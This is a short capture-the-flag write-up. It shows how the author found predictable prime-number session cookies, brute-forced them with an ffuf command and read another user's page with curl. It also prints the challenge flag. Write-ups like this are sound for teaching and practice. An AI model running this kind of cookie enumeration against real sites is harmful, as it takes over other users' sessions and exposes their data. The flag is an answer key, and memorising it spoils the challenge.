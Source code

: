 # Flag

> **Hacking-Arena{Prime_days_a_week}**

# Prompt

> **Find the user: [http://vader.hackingarena.com:825](http://vader.hackingarena.com:825/)**

# Solution

Since we are working on multiple user-logins and already have access to 3 of them. I decided to use burp and collect the 3 different cookie id's.

* John: beatlesid=11161
* Paul: beatlesid=15803
* George: beatlesid=10303

Immediately we can tell that the id's are prime numbers, which led me to brute force the cookie id's with 5000 prime numbers from 5000.

```
ffuf -u "http://vader.hackingarena.com:825/index.php" -b "beatlesid=FUZZ" -w "Desktop/primes" -fs 543
```

This allows us to check all beatlesid's with the prime numbers from a txt-file, filtering out those with a size of 543, leaving us with id's with actual web-content.

* 10303 (George)
* 11161 (John)
* 15803 (Paul)
* 17159, size 579

Lastly, we want to check the foreign prime number by using **Curl**

```
curl -b "beatlesid=17159" "http://vader.hackingarena.com:825/index.php"
```

![[Pasted image 20241024165046.png]]

We have now found a flag.
# Additional Info

Additional solution / info